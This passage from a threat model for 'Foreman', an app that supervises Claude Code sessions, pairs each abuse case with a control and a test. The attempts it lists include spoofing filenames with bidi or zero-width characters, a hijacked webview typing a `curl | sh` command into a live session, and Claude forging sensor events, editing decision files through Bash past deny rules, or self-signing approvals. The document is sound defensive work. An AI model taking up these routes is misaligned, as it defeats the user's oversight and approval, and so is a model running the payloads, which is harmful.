| 1 | The repo contains `docs/handoff/stage-02‮dm.exe` (U+202E), which displays as `stage-02exe.md`. | The read policy refuses bidi controls in path components; the refusal message shows the name with visible escapes (SR-31, SR-26). | `fs_policy::*` golden (bidi); ⚑ NEW `render::hostile_filename_escaped` |
| 2 | A file named `stage-02.md\n[OK] all checks passed` fakes lines in a list or log. | C0 in names refused; lists render escapes; logs redact content fields (SR-30, SR-31, SR-54). | `fs_policy::*` golden (control characters); ⚑ NEW `render::hostile_filename_escaped`; `logging::redaction` |
| 3 | A zero-width joiner makes `CLAUDE‍.md` look like `CLAUDE.md`. | Zero-width characters rejected in write paths (SR-30). | `fs_policy::*` golden (zero-width) |
| 4 | A 4,000-byte REPO FILES path, or a 300-byte component. | **Gap:** no explicit bound; the OS returns `ENAMETOOLONG`. Proposed: lexical limits (component ≤ 255 bytes, path ≤ 1,024 bytes) with a clear error. | ⚑ NEW `fs_policy::rejects_overlong_path` |
| 5 | `stage-02 (copy).md` or `stage-02-old.md` is shown or validated as Stage 2's packet. | **F-8:** exact-name interest set. | ⚑ NEW `watcher::interest_set_exact_names` |
| 6 | A name starting with `-` reaches `open` or `git` as an option. | Absolute paths for `open`; `--` and `-z` formats for git (ADR-012, ADR-014). | `git::invocation_snapshot`; `opener::uses_editor_bundle_id` |

### AB-12 · A forged sensor event

| Step | Attempt | Control | Test |
|---|---|---|---|
| 1 | Claude's Bash writes `events/<runId>/999-Stop.json` with a guessed token, to make re-arm proceed while a background task runs. | The token is checked on ingest (SR-15). | `sensor::rejects_wrong_token`; AC-F011-03 |
| 2 | It writes an event with the **correct** token (read from the run settings file, AS-3). | Accepted as state only. Re-arm still needs Billy's click and sends Ctrl-C then `/exit`; terminate needs confirmation; nothing is triggered (SR-18, SR-13). | `sensor::events_only_update_state`, `rearm::only_from_user_action`; AC-F011-08. Residual **RR-02** |
| 3 | It floods 10,000 event files. | At most 20 kept per run; pruning (SR-53). | `retention::events_max_age`; AC-F011-07 |
| 4 | It replaces `bin/foreman-sensor-<hash>`. | The hash is checked before each run settings file is written (SR-15). | `sensor::hash_checked_per_run`; AC-F011-02 |
| 5 | It symlinks `events/<runId>` to another folder. | The sensor opens the directory with `O_DIRECTORY\|O_NOFOLLOW` and refuses (ADR-009). | `sensor::stdin_cap` plus AC-F011-04 (`O_EXCL\|O_NOFOLLOW`); the Stage 4.6 ticket adds the directory-symlink case to AC-F011-04's test |

### AB-13 · A compromised npm dependency in the webview types into a Claude session

| Step | Attempt | Control | Test |
|---|---|---|---|
| 1 | A new version of a transitive dependency of bits-ui ships a payload. | A 7-day minimum release age, strict; exact pins; frozen lockfile; `pnpm audit`; `trustPolicy: no-downgrade` (SR-61). | CI `pnpm-policy`, `pnpm-audit`; AC-M0-17 |
| 2 | Its install script runs on Billy's Mac or CI. | `allowBuilds` default-deny (SR-61). | CI `pnpm-policy`; AC-M0-17 |
| 3 | At runtime it tries to load a second stage from the network, or exfiltrate. | CSP: `script-src 'self'`, `connect-src` IPC only (SR-20, SR-60). | WDIO CSP test (AC-XC-07); Playwright zero-external-requests |
| 4 | It calls `invoke('pty_write', …)` with `!curl … \| sh\r` while a session is live. | Only live runs accept writes (SR-24). Claude Code's own permission prompt for `!` commands still applies in the TUI, depending on mode. | `pty::write_requires_live_run`. Residual **RR-03** |
| 5 | It calls `config_ack`, `pending_change_accept`, `launch_start` or `sign_apply` to approve things. | **F-1 adopted (SR-24a):** each command raises a native dialog in Rust; the request carries no approval, so the call only asks Billy. | `ipc::security_confirmations_are_native`. No residual for approvals |
| 6 | It calls `settings_update` to set the `claude` path to `/bin/zsh` or to add `HTTPS_PROXY` to the pass-through list. | Paths only from the Rust dialog (SR-24); SR-01 re-check; F-2 aligns the removed list with SR-07. | ⚑ NEW `settings::security_fields_require_native_confirm`, ⚑ NEW `env::removed_list_covers_blocked_patterns` |
| 7 | It calls plugin APIs directly (the clipboard-manager `read_text` and opener `open_path` plugin commands). | No plugin permissions in the capability (SR-22). | `capabilities::main_window_snapshot`; AC-M0-09 |

### AB-14 · Claude Code updates and changes behavior

| Step | Attempt | Control | Test |
|---|---|---|---|
| 1 | Claude Code auto-updates between two steps of one chain. | `claude -v` on every launch; the first launch after a change needs confirmation ("Claude Code updated X → Y") (SR-19). | `preflight::confirm_required_for_version_change`; AC-F008-18 |
| 2 | The update renames `--effort` or changes `--permission-mode` values. | Contract probes before the next launch; a flag failure disables only the dependent feature (SR-17). | `probe::runs_on_version_change`, `probe::failure_disables_feature`; AC-F019-15, AC-F019-16 |
| 3 | The update changes the `auth status` JSON. | Fail-closed on missing or unknown `authMethod` (SR-08). | `preflight::auth_unknown_output_blocks`; AC-F008-08 |
| 4 | The update changes the hook input schemas. | The probe records real payloads as fixtures; derived-state tests catch it; sensor features degrade to P1 (ADR-009, ADR-017). | `probe::inconclusive_keeps_state`; AC-F011-09 |
| 5 | The version drops below the floor (a downgrade). | Run disabled with the capability table (ADR-017). | `compat::blocks_below_floor`; AC-F008-01 |
| 6 | The update changes permission-rule semantics (for example how `//` deny paths match) in a way probes don't detect. | Not detected automatically; the manual docs watch list per Stage Gate (ADR-017 §5). | Residual **RR-11** |

### AB-15 · Transcript deletion breaks a chain

| Step | Attempt | Control | Test |
|---|---|---|---|
| 1 | Claude Code's `cleanupPeriodDays` (30 by default) deletes the chain's `.jsonl`; Billy returns after a month and runs a continuing step. | The preflight checks the transcript's existence (`statat` only); the chain becomes `broken`; the step offers "Start a fresh chain with context" (ADR-008). | `chain::broken_when_transcript_missing`; AC-F010-09 |
| 2 | Same, for Repair or Resume of an Interrupted session. | The same preflight path (ADR-021 step 6). | `chain::broken_when_transcript_missing`; AC-F013-11 |
| 3 | Same, but a fresh session must not be launched with `--resume` of a missing ID. | `plan_session` returns `Broken`; argv for a fresh chain uses `--session-id` (SR-14). | `argv::session_id_only_on_chain_start_or_fork`; AC-F010-01 |
| 4 | Billy needs to know why. | Doctor shows the effective `cleanupPeriodDays` and recommends a value, never writing it (SR-10). | AC-F019-10 |

### AB-16 · Claude edits `.foreman/` decision files

| Step | Attempt | Control | Test |
|---|---|---|---|
| 1 | In an `acceptEdits` session, Claude "helpfully" edits `.foreman/project.json` to set a condition `has_server = no`, or adds a skip to `overlay.json`. | The Edit tool is denied by the run settings (SR-09). | `run_settings::deny_paths_absolute`; AC-F008-16 |
| 2 | It uses Bash instead (`jq … > .foreman/project.json`). | The deny doesn't bind Bash (RR-01); **SR-40**: Pending outside change with a redacted diff, no effect until Billy accepts. | `decisions::outside_edit_has_no_effect_until_accepted`; AC-F022-01, AC-F022-04 |
| 3 | `git checkout` of another branch brings older decision files. | Same: pending review (intended, ADR-022). | AC-F022-04 |
| 4 | Billy clicks Reject while Claude edits the file again. | A CAS write; a newer edit means a conflict and the review repeats (SR-33). | `decisions::reject_restores_via_cas`; AC-F022-05 |
| 5 | Claude edits only variables. | Auto-accepted with a toast (variables don't decide the process). | `decisions::variables_only_autoaccept`; AC-F022-03 |
| 6 | Claude edits the **approved copy in app data** through Bash. | Inside the trust boundary (AS-3): not prevented. | `run_settings::deny_paths_absolute` (Edit tool only). Residual **RR-02** |

### AB-17 · Claude self-signs a packet (added by this analysis)

| Step | Attempt | Control | Test |
|---|---|---|---|
| 1 | At the end of a long CLI stage, Claude writes `APPROVED BY: Billy on 2026-10-19` into `docs/handoff/stage-05.md` (the bootstrap `CLAUDE.md` forbids it, but that's only an instruction). | **F-6 applied (SR-47, DR-135):** the packet validates but the stage counts as signed only after Billy confirms it in a native dialog that binds the packet's SHA-256 (AC-F013-09); any later change voids it. | `packet::outside_signature_needs_confirmation`; AC-F013-09 |
| 2 | P2: the same edit after Foreman signed (a tamper). | Tamper event; the committed version wins (SR-46). | `sign::tamper_detected`; AC-F014-15 |
| 3 | P2: the same edit to a stage Foreman hasn't signed. | **F-6:** show as "unverified signature" until a stage record and signing commit exist. | ⚑ NEW `packet::outside_signature_needs_confirmation` |

---

## 5. Residual and accepted risks

Owner of every risk: **Billy**. Each has a trigger that reopens it. Stage 14 (the security review and penetration test) re-checks each one.

| ID | Risk | Why it's accepted | Related | Revisit when |
|---|---|---|---|---|
| RR-01 | **Run-settings deny rules don't bind Bash.** A session can still edit `.foreman/` and app data with shell commands. The case-variant bypass (F-9) is **UNVERIFIED**. | The rules are defense in depth against the Edit and Write tools and accidents. SR-40 is the real control for repo decision files. Binding Bash would need an OS sandbox around Claude Code, which Foreman doesn't own. | T-025, T-026, AB-16 | Claude Code documents a Bash sandbox or path enforcement that run settings can enable; S-1′ shows the case-variant bypass works (then add variant rules or document the deny as advisory) |
| RR-02 | **Same-user forgery and tampering**: sensor events with the real token, edited approved copies, `progress.json`, the fingerprint cache, a sensor binary replaced between the hash check and exec. | AS-3: any process running as Billy is inside the boundary. Foreman can't keep a secret from it (no keychain, SR-51). Events trigger nothing (SR-18). Hash checks catch accidental corruption. | T-045, T-046, T-064, AB-12, AB-16 | Foreman runs Claude Code under a separate user or sandbox; Foreman gains a secret store (would need SR-51 revisited); evidence of a real forgery |
| RR-03 | **A compromised webview** (a hostile JS dependency) can type into a live session through `pty_write`, and can *request* (never approve) actions. F-1 is adopted (SR-24a): every approval is a native dialog, so it can't approve confirmations or change security-relevant settings. | The `brownfield` pattern is chosen in ADR-014. The supply-chain controls (SR-61), CSP (SR-20) and Rust validation (SR-24) make it unlikely. Keystrokes can't be told apart from Billy's. | T-001, T-002, AB-13 | Any third-party UI code is added beyond the current set; a native confirmation is ever replaced by a webview one (then reconsider the isolation pattern); an advisory hits a runtime JS dependency |
| RR-04 | **`style-src 'unsafe-inline'`**, if S-0 forces it: CSS injection without script, which could hide or restyle UI. | Bounded by SR-20 and ADR-014's S-0 rule. Text-only rendering means injection already needs another bug. | T-013 | The S-0 result; SvelteKit, bits-ui or xterm drop runtime inline styles; Tauri adds style hashes for runtime styles |
| RR-05 | **v1.1 verify commands execute repository code** (SR-12). | Running tests is inherently running repo code. The approval object, linter and script-hash invalidation (SR-11) limit it to what Billy approved. | T-107 | F-101 design (v1.1); any change to the linter's reject list; a verify command that needs a network tool |
| RR-06 | **Mid-session config reload**: a hook, allow rule or helper written during a session applies at once; Foreman catches it at the next launch only. | Claude Code's documented behavior. Foreman can't block a running process's reload without editing user config (SR-10). It warns with `config:changed`. | T-027, AB-04 | Claude Code offers a "freeze settings for this session" flag; the warning proves too late in practice |
| RR-07 | **Server-managed and MDM settings** can't be fingerprinted from files. | The fail-closed auth check (SR-08) still catches an auth-method change. Billy's personal Mac isn't MDM-managed. | T-020 | The Mac becomes managed; Claude Code exposes effective settings in a machine-readable form |
| RR-08 | **Acknowledged configuration still runs**: after Billy acknowledges a diff, repo hooks, MCP servers and agents run with his rights. Repeated acknowledgements invite fatigue. | Hooks and agents are part of how the blueprint works (step 5.4 writes hooks). Foreman's job is to make changes visible, not to forbid them. | T-021, AB-04, AB-05 | Billy acknowledges a change he later regrets; acknowledgements exceed about one per stage (then summarize risky keys first) |
| RR-09 | **Prompt injection into Claude** through repo content, packets or pasted text. Foreman embeds signed packets in later prompts by design. | Claude Code's behavior is outside Foreman (T4). Foreman never acts on the text (SR-27). Billy reviews packets at signing, with hidden characters made visible (SR-26, F-7). | T-087, T-088 | An injected instruction makes it through a signed packet; Claude Code adds an untrusted-content marking mechanism Foreman could use |
| RR-10 | **The P1 idle check relies on Billy's assertion** ("Claude is idle and nothing is running in the background"). | The sensor arrives in P2. The button text is the assertion and is covered by a copy test (ADR-008). | T-029 | P2 sensor ships (then the manual path stays only as a fallback); any lost work after a re-arm |
| RR-11 | **Claude Code behavior drift that probes can't see** (permission semantics, rule matching, trust prompts). | Probes cover flags and hooks only, at zero tokens. A manual docs watch list per Stage Gate covers the rest (ADR-017 §5). | T-036, AB-14 | Each Stage Gate; any Claude Code release note touching permissions, settings or hooks |
| RR-12 | **The login-PATH capture runs Billy's login shell** and its rc files. | One consented run; the output is shown before it's stored (SR-02). Claude Code sources the same rc files anyway. | T-015 | S-12 fail branch (capture becomes mandatory); F-5 places it in app data |
| RR-13 | **`http://localhost` terminal links** can reach local services with a GET after Billy confirms. | Needed for dev servers in Stages 6+; the confirmation shows the full URL (SR-29). | T-093 | A local service with state-changing GETs is in use; any link-confirmation fatigue |
| RR-14 | **The editor and Finder** (reached through `open -b`) are outside Foreman: an editor may apply workspace settings when it opens a file inside a repo. | Foreman opens a single file, not a folder, in Billy's chosen editor (SR-25a). | T-044 | Billy switches editors; an editor auto-runs tasks on file open |
| RR-15 | **Backups and OS crash reports** (Time Machine copies of app data including output tails; macOS crash logs) are outside Foreman's retention. | OS behavior. Tails are already pruned at 90 days and are `0600`. | T-074 | Billy enables cloud backup of `~/Library`; a secret is found in a tail |
| RR-16 | **Closed in the Stage 4.7 review.** Non-PTY children get `process_group(0)`, not `setsid` (no safe stable `setsid`; ADR-007); the review accepted this and SR-57 now says so. | A Finder-launched Foreman has no controlling terminal, so the difference is moot. The fallback is spawning through portable-pty. | T-034 | `CommandExt::setsid` stabilizes; `spawn::no_inherited_fds` fails |
| RR-17 | **User-writable program locations**: `~/.local/bin/claude` (Claude Code's own install and self-update target) and an installed `Foreman.app` can be replaced by any same-user process. | AS-3. SR-01 stops repo-planted programs, not same-user replacement. Claude Code must update itself there. | T-014, T-106 | Claude Code ships a signed-binary verification Foreman can call; Foreman moves to Developer ID signing |
| RR-18 | **The OAuth token in the child environment**, when Billy uses `CLAUDE_CODE_OAUTH_TOKEN`, is visible to everything Claude runs and may be printed into an output tail. | It's how token auth works in Claude Code. Only names are logged (SR-52). Tails are `0600` and pruned. | T-028 | Claude Code supports reading the token from a file descriptor or keychain itself; a tail is found with a token |
| RR-19 | **Paste-back and the assembler write ordinary build files** (`package.json`, `Makefile`, scripts), which run code later when Billy or Claude builds. | That's the purpose of REPO FILES (F-023). Every target is listed with a diff first (SR-35). The editor- and tool-specific deny list is a fixed set. | T-052 | A new tool directory that auto-runs code appears in Billy's stack (for example `.devcontainer`, `.zed`, `.cursor`): add it to SR-30's deny list |
| RR-20 | **Clipboard exposure to other apps**: resolved prompts that Foreman copies for chat steps are readable by clipboard managers and other apps. | The chat bridge's contract is the clipboard (MASTER-SPEC, P-11). | T-099 | Billy installs a syncing clipboard manager; claude.ai gains a supported prefill API |

---

## 6. Coverage

### 6.1 Every SR and PR maps to at least one threat

| Req | Threats | Tests that prove the control (as named in `requirements.md`, the ADRs, `scope.md`) |
|---|---|---|
| SR-01 | T-004, T-014, T-038 | `spawn::rejects_relative_path`, `spawn::rejects_unlisted_program`, `spawn::rejects_symlink_into_project`; AC-XC-02, AC-F008-03 |
| SR-02 | T-015, T-038 | clippy `disallowed-methods`, `spawn::no_shell_in_any_code_path`, `doctor::login_path_requires_consent`; AC-XC-01, AC-F019-12 |
| SR-03 | T-016, T-023, T-066, T-087 | `argv::only_known_flags`, `argv::never_contains_forbidden_flags`, `template::rejects_bypass_permissions`; AC-F001-10, AC-F008-14, AC-F025-05 |
| SR-04 | T-017 | `argv::rejects_option_like_prompt`, `argv::positional_prompt_snapshot`; AC-F008-12 |
| SR-05 | T-004, T-018, T-019, T-028 | `env::allowlist_only`, `env::denylist_beats_passthrough`, `env::oauth_token_passed_when_present`, `env::path_entries_sanitized`; AC-F008-15; ⚑ `env::removed_list_covers_blocked_patterns` |
| SR-06 | T-003, T-021, T-027, T-052, T-070 | `preflight::hook_script_change_detected`, `preflight::ancestor_claude_md_detected`, `preflight::user_mcp_server_detected`; AC-F008-04, AC-F008-06 |
| SR-07 | T-004, T-020, T-022, T-027 | `preflight::blocks_<key>`, `preflight::allowlisted_user_key_passes`; AC-F008-05, AC-F008-22 |
| SR-08 | T-020, T-022, T-036 | `preflight::auth_checked_in_step_cwd`, `preflight::blocks_api_key_auth`, `preflight::auth_unknown_output_blocks`, `preflight::auth_after_fingerprint`; AC-F008-08, AC-F008-09 |
| SR-09 | T-023, T-024, T-025, T-026, T-064 | `run_settings::contents_snapshot`, `run_settings::deny_paths_absolute`, `run_settings::fresh_per_run`, S-1′ probe check; AC-F008-16; ⚑ `run_settings::deny_case_variant_probe` |
| SR-10 | T-050, T-052 | `fs_policy::denies_claude_settings_writes`; AC-XC-10, AC-F011-10 |
| SR-11 | T-107 | `verify::lint_rejects_*`, `verify::script_change_invalidates_approval` (v1.1) |
| SR-12 | T-107 | `gate::auto_pass_requires_exit_zero` (v1.1) |
| SR-13 | T-024, T-029 | `rearm::ctrl_c_then_exit_order`, `rearm::no_kill_without_idle_or_confirm`; AC-F010-04, AC-F010-05 |
| SR-14 | T-030 | `argv::session_id_only_on_chain_start_or_fork`; AC-F010-01, AC-F010-02, AC-F010-15 |
| SR-15 | T-045, T-046, T-047, T-048 | `sensor::rejects_wrong_token`, `sensor::exec_form_only`, `sensor::hash_checked_per_run`, `sensor::stdin_cap`; AC-F011-01 to AC-F011-04 |
| SR-16 | T-035 | `argv::no_print_mode_in_v1`; AC-XC-03 |
| SR-17 | T-031, T-036, T-037 | `probe::runs_on_version_change`, `probe::runs_only_in_probe_dir`, `probe::dir_reset_before_run`, `probe::inconclusive_keeps_state`, `probe::failure_disables_feature`; AC-F019-15 to AC-F019-17 |
| SR-18 | T-027, T-031, T-045 | `rearm::only_from_user_action`, `sensor::events_only_update_state`; AC-F010-07, AC-F011-08 |
| SR-19 | T-003, T-032, T-033, T-036, T-066 | `preflight::confirm_required_for_{overlay_step,mode_change,auto_and_dontask,first_launch,version_change}`, `runlog::record_before_spawn`; AC-F008-17 to AC-F008-19 |
| SR-20 | T-001, T-007, T-013, T-089 | `csp::production_config_snapshot`, the WDIO inline-script test; AC-M0-08, AC-XC-07 |
| SR-21 | T-008, T-009, T-010 | `config::security_settings_snapshot`; AC-M0-08 |
| SR-22 | T-001, T-006, T-009, T-011 | `capabilities::main_window_snapshot`; AC-M0-09 |
| SR-23 | T-009 | `capabilities::every_command_declared_and_granted`; AC-M0-09 |
| SR-24 | T-002, T-003, T-004, T-005, T-006 | `ipc::rejects_unknown_fields`, `ipc::fuzz_*`, `pty::write_requires_live_run`; AC-XC-05, AC-XC-06, AC-F009-19 |
| SR-24a | T-003, T-004, AB-13 | `ipc::security_confirmations_are_native`, `settings::security_fields_require_native_confirm`; AC-F008-18, AC-F022-02, AC-F010-03, AC-F009-04, AC-F013-09, AC-F021-06, AC-F001-17 |
| SR-25 | T-100 | `opener::only_allowed_urls`; AC-XC-08, AC-F012-02 |
| SR-25a | T-044 | `opener::open_file_refuses_executable_types`, `opener::uses_editor_bundle_id`; AC-XC-28 |
| SR-26 | T-007, T-077, T-088, T-089 | lint rules, `render::escapes_html_in_packet`, `render::no_raw_html_passthrough`, `render::bidi_visible_in_diff`; AC-XC-32, AC-F012-13; ⚑ `render::default_ignorables_visible`, ⚑ `render::hostile_filename_escaped` |
| SR-27 | T-016, T-078, T-085, T-087 | `abuse::packet_text_cannot_change_flags`; AC-XC-09, AC-F006-09, AC-F013-03; ⚑ `abuse::*` (AB-01), ⚑ `packet::outside_signature_needs_confirmation` |
| SR-28 | T-088, T-091, T-092 | `pty::paste_strips_escape_sequences`, `resolver::rejects_control_chars_in_prompt`, S-0 check; AC-F006-17, AC-F009-15, AC-F009-16 |
| SR-29 | T-008, T-093, T-094, T-095, T-096, T-097 | `webview::navigation_denied_to_remote`, `webview::window_open_denied`, `terminal::link_handler_routes_to_rust`, `opener::terminal_link_scheme_policy`, `terminal::options_snapshot`; AC-XC-27, AC-F009-17, AC-F009-18; ⚑ `terminal::no_answerback_injection` |
| SR-30 | T-003, T-051, T-052, T-053, T-054, T-066, T-077, T-090 | `fs_policy::*` golden, `fs_policy::case_and_normalization_variants`; AC-F021-01 to AC-F021-08; ⚑ `fs_policy::rejects_overlong_path` |
| SR-31 | T-021, T-044, T-055, T-056, T-058, T-077, T-078 | `fs_policy::read_refuses_symlink_at_any_component`, `fs_policy::read_refuses_hardlink`, `fs_policy::read_size_cap`, `watcher::symlinked_root_refused`; AC-F021-07, AC-F013-05, AC-F013-16, AC-F008-24; ⚑ `watcher::interest_set_exact_names` |
| SR-31a | T-068 | `fs_policy::read_scope`; clippy `disallowed-methods`; AC-XC-30 |
| SR-32 | T-054, T-059, T-061, T-062, T-086 | `atomic::crash_injection`, `atomic::refuses_planted_tmp_symlink`, `atomic::exclude_writer_scope`; AC-F020-01, AC-F020-02, AC-F020-13 |
| SR-33 | T-060, T-090 | `atomic::refuses_newer_file`; AC-F020-03, AC-F012-08, AC-F022-05 |
| SR-34 | T-051, T-087 | `actions::destinations_fixed`; AC-F007-02 |
| SR-35 | T-051, T-090 | `pasteback::lists_targets_before_write`, `assembler::rejects_policy_violations`; AC-F012-06, AC-F012-07, AC-F023-03, AC-F023-04 |
| SR-40 | T-003, T-025, T-026, T-063, T-065 | `decisions::outside_edit_has_no_effect_until_accepted`; AC-F022-01, AC-F022-02, AC-F022-04 |
| SR-41 | T-064, T-065, T-067 | `lock::hash_mismatch_read_only`, `lock::restore_from_git`; AC-F002-04 to AC-F002-06 |
| SR-42 | T-003, T-039, T-079, T-080, T-082, T-085, T-086 | `sign::refuses_changed_file`, `sign::pathspec_only`, `sign::readback_detects_mismatch`, `sign::untracked_new_packet`; AC-F014-04 to AC-F014-08, AC-F014-10, AC-F020-08 |
| SR-43 | T-081 | `sign::other_branch_leaves_worktree_head_and_index`; AC-F014-09 |
| SR-44 | T-039, T-041 | `git::single_entry_point`, `git::no_hooks_on_any_command`; AC-XC-04, AC-F014-07; ⚑ `git::refuses_enclosing_repo` |
| SR-45 | T-039, T-040, T-041, T-042, T-043, T-065, T-080 | `git::filter_driver_never_runs`, `git::repo_gpg_program_never_runs`, `git::env_cleared`, `git::invocation_snapshot`, `git::timeout`; AC-XC-04, AC-F014-12; ⚑ `git::status_and_diff_never_run_filters` |
| SR-46 | T-083, T-085 | `sign::tamper_detected`; AC-F014-15 |
| SR-47 | T-067, T-084, T-085 | `gate::signable_requires_all`, `packet::outside_signature_needs_confirmation`; AC-F013-09, AC-F014-01, AC-F015-02, AC-F015-10 |
| SR-50 | T-055, T-057 | `secrets::excluded_from_views_and_watcher`, `secrets::symlink_to_secret_refused`; AC-XC-11, AC-F013-04 |
| SR-51 | T-069 | CI `deny` bans on `security-framework` and `keyring`; AC-XC-12 |
| SR-52 | T-028, T-033, T-072 | `runlog::no_env_values`, `runlog::argv_prompt_redacted`; AC-F026-01, AC-F026-03 |
| SR-53 | T-028, T-049, T-064, T-071, T-074 | `fs::app_data_permissions`, `retention::tail_pruned_after_90_days`, `retention::events_deleted_on_sign`, `retention::events_max_age`; AC-XC-14, AC-F009-07, AC-F011-07 |
| SR-54 | T-028, T-073 | `logging::redaction`; AC-XC-13 |
| SR-55 | T-021, T-063, T-070 | `preflight::config_snapshot_redacts_secrets`, `preflight::diff_shows_redacted_change`; AC-F008-23, AC-F022-02 |
| SR-56 | T-091, T-098, T-099 | `clipboard::read_only_on_user_action`, `clipboard::size_cap`, `notify::body_template_snapshot`; AC-XC-29, AC-F012-09 |
| SR-57 | T-005, T-018, T-034, T-073, T-105 | `pty::child_env_exact`, `pty::no_inherited_fds`, `lifecycle::crash_leaves_interrupted`, `ipc::panic_returns_typed_error`; AC-XC-31, AC-F008-25 |
| SR-60 | T-001, T-010, T-038, T-101, T-106 | CI `deny` bans; `network::blocked_network_run`; AC-M0-06, AC-M0-10 |
| SR-61 | T-001, T-103, T-104 | CI `deny`, `audit`, `pnpm-audit`, `pnpm-policy`, `actions-pinned`; AC-M0-03, AC-M0-06, AC-M0-17 |
| SR-62 | T-005, T-066, T-105 | CI `clippy`, crate attributes; AC-M0-07 |
| SR-63 | T-104 | Stage 5 gate items; AC-M0-04, AC-M0-05 |
| SR-64 | T-106 | `scripts/build-release` at the Stage 5 gate; AC-M0-11 |
| PR-01 | T-101, T-102 | SR-60 tests; AC-M0-10 |
| PR-02 | T-074, T-076 | `docs/contracts/files.md` data classes; AC-XC-15 |
| PR-03 | T-068, T-072 | SR-52 tests; AC-F026-03, AC-XC-16 |
| PR-04 | T-049, T-074 | SR-53 tests; AC-F026-10, AC-F011-07 |
| PR-05 | T-075 | `privacy::clear_history`, `privacy::remove_project_leaves_repo` |
| PR-06 | T-076 | schema tests (`schema::all_versions_migrate`, `schema::newer_version_read_only`); AC-F020-07 |
| PR-07 | T-102 | Statement in §1.1, as `requirements.md` specifies |
| PR-08 | T-068 | `fs_policy::read_scope`; AC-XC-30, AC-F019-03 |

**Result:** all 67 SR/PR IDs (59 SR, 8 PR) in `requirements.md` (SR-01 to SR-19, SR-20 to SR-29 with SR-24a and SR-25a, SR-30 to SR-35 with SR-31a, SR-40 to SR-47, SR-50 to SR-57, SR-60 to SR-64, PR-01 to PR-08) map to at least one threat. AR-01 is accessibility, not a security or privacy requirement, and is out of this model's scope.

### 6.2 Every threat maps to a control and a test

Every row T-001 to T-107 in §3 names at least one mitigating control and at least one test (an existing name, an AC ID, or a ⚑ NEW name). Two rows rest on something other than an automated test, and both are intended:

| Threat | What proves it | Why that's acceptable |
|---|---|---|
| T-012 | NFR tests (`pty::burst_1mb_backpressure`, AC-F009-10); no SR | A UI denial of service has no security requirement; NFR-08 covers it |
| T-102 | A statement (PR-07) plus AC-M0-10 (Foreman sends nothing) | `requirements.md` specifies PR-07 is proven by this document's statement |

### 6.3 Gaps found and how they're closed

**SRs without a threat:** none found.

**Threats with no existing test** (each was closed by naming a new test; the Stage 4.6 tickets must create them):

| ⚑ NEW test | Threat / abuse case | Level · milestone (proposed) |
|---|---|---|
| `ipc::security_confirmations_are_native` | T-003, AB-13 (F-1) | int · M2 (launch confirmation), M3 (ack, pending), M4 (sign) |
| `settings::security_fields_require_native_confirm` | T-004, AB-13 (F-1) | int · M2 |
| `env::removed_list_covers_blocked_patterns` | T-018, AB-13 (F-2) | unit · M2 |
| `run_settings::deny_case_variant_probe` | T-026, AB-08 (F-9) | manual · M0 (S-1′) |
| `watcher::config_changed_marks_open_runs` | T-027, AB-04 | int · M3 |
| `spawn::helper_cwd_is_app_data` | T-038 (F-5) | int · M1 (git), M2 (probes) |
| `git::status_and_diff_never_run_filters` | T-040, AB-06 (F-3) | int · M1 |
| `git::refuses_enclosing_repo` | T-041, AB-06 (F-4) | int · M1 |
| `template::deep_nesting_bounded` | T-066, AB-10 (F-10) | unit/prop · M1 |
| `fs_policy::rejects_overlong_path` | T-077, AB-11 | unit · M1 |
| `render::hostile_filename_escaped` | T-077, AB-11 | comp · M2 |
| `watcher::interest_set_exact_names` | T-078, AB-11 (F-8) | int · M3 |
| `packet::outside_signature_needs_confirmation` | T-085, AB-17 (F-6) | int · M3 (P1), M4 (P2) |
| `render::default_ignorables_visible` | T-088 (F-7) | unit + comp · M2 |
| `terminal::no_answerback_injection` | T-096, AB-03 | comp/e2e · M3 |
| `abuse::overlay_text_cannot_change_flags`, `abuse::ticket_text_cannot_trigger_actions`, `abuse::annotation_cannot_escape_policy` | AB-01 (under AC-XC-09, which already calls for abuse-case tests) | prop · M1 |

**Test extensions** (existing names, new cases; no new name):
- `secrets::excluded_from_views_and_watcher` gains case variants (AB-08 step 4).
- AC-F011-04's test gains a symlinked `events/<runId>` directory (AB-12 step 5).

**After closing:** every SR/PR maps to a threat (§6.1), and every threat maps to a control and a test (§6.2). **No open gaps.**

---

## 7. Findings for `requirements.md` and the ADRs

All thirteen findings were applied to `docs/requirements.md` after this model was written, and the Stage 4.7 fix pass carried them into the ADRs, the design doc, `docs/scope.md` and the contracts. The **Applied as** column says where each one landed.

| ID | Finding | Where | Severity | Applied as |
|---|---|---|---|---|
| F-1 | **Security confirmations are webview-rendered.** SR-06 ack, SR-19 launch confirmation, SR-40 accept, SR-30's `CLAUDE.md` confirmation token, `sign_apply`, and changes to security-relevant Settings can be granted by a compromised webview. SR-24 names only `pty_write` as the residual. Only `terminal_link_open` uses a native Rust dialog. Proposal: native dialogs for these decisions, or record them explicitly in RR-03 and ADR-014's brownfield rationale. | SR-24, SR-19, ADR-014, ADR-021 | Major | SR-24a, native confirmations (`docs/contracts/ipc.md` IPC-R11; ADR-014 "Native confirmations"; ADR-008 idle dialog; RR-03 narrowed) |
| F-2 | **SR-05's always-removed list is narrower than SR-07's blocked env patterns.** `*_PROXY`, `NODE_EXTRA_CA_CERTS`, `NODE_TLS_REJECT_UNAUTHORIZED`, `SSL_CERT_*` and `CLAUDE_CODE_*` (other than the OAuth token) can reach the child through the pass-through list. Proposal: always remove every SR-07 pattern, except the two named pass-throughs. | SR-05, ADR-007 §4 | Major | SR-05, the removed list now covers SR-07 (ADR-007 §4) |
| F-3 | **`git status` and `git diff` can run repo clean filters** (racily-clean entries), which SR-45's `--no-filters` doesn't cover. Proposal: plumbing comparisons, or attributes neutralized for those calls; extend the filter test. | SR-45, ADR-012 §5 | Major | SR-45, plumbing only: no `status`, `diff`, `add` or `commit` (ADR-012, DR-140, DR-142) |
| F-4 | **No check that git operates on the project's own repository.** It may discover an enclosing repo. Proposal: `rev-parse --show-toplevel` must equal the root before writes, or set `GIT_CEILING_DIRECTORIES`. | SR-44, SR-45, ADR-012 | Major | SR-44, refuses to act on an enclosing repo (DR-141) |
| F-5 | **The cwd of non-session spawns is unspecified** (`claude -v`, the toolchain probes, the login shell). `pnpm --version` in a repo can trigger Corepack. Proposal: `cwd = <app-data>` for all of them; only `auth status` and sessions use the step cwd. | SR-01, ADR-007, ADR-017 | Minor | SR-01, helper processes run with app data as the working directory (ADR-007 §4) |
| F-6 | **In P1 a packet's text alone makes a stage "signed"** (AC-F013-09), so Claude can self-approve. Proposal: signatures Foreman didn't write need Billy's confirmation in Foreman; P2 shows them as unverified. | AC-F013-09, SR-27, SR-46 | Major | SR-47, an outside signature needs a native confirmation bound to the packet hash (AC-F013-09, DR-135) |
